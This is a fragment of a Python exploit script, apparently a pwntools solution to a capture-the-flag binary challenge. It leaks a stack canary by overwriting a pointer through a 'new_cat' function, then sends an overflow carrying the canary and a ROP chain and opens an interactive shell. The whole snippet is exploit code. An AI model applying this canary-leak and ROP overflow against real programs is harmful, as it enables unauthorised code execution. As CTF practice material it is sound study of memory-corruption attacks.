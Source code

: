 ```python
info(f"""
libc: {hex(libc)}
canary_addr: {hex(canary_addr)}
""")
new_cat(4, 0xdadadada, b"\x66"*0x50 + p64(canary_addr + 1)) # overwrite ptr to canary
get_cat()
r.recvuntil(b'Name: ')
canary = b'\x00' + r.recvline()[:-1][:7]
info(f"""
canary: {canary}
""")
input()
new_cat(4, 0xdadadada, b"\xff"*0x88 + canary + b'\xee'*0x18 + rop)
r.sendline('4') # ret: 0x4023d3
r.interactive()
```

